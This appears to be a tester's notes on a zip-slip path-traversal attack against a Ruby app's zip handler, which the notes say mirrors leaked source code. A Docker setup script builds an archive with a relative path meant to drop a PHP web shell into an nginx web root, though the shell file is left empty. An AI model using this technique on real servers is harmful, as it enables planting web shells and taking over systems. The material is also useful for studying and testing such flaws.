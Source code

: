 
## Testing
Used ubuntu docker, the likely victim machine. Created a sample zip file using relative file paths (../var/www/html) to attempt tp plant web shell in the nginx web root. Required additonal flags to unzip, `unzip :-` to make it respect relative paths. This would need to be tested in the ruby app.

Sample ruby app mirroring the zip handler seen in the leaked source code to build to test its handling of relative zip file paths (`temp.rb`). In testing, it was found to respect relative paths.

```bash
# setup env
docker run -it --rm -v $(pwd):/tmp ubuntu bash
apt update
apt install nginx ruby zip -y
/usr/sbin/nginx

# setup malicious zip file, payload is not important now
cd /tmp
touch /var/www/html/shell.php
zip images.zip .../var/www/html/shell.php

# install ruby reqts
gem install zip rubyzip

# run the test app
ruby temp.rb
```

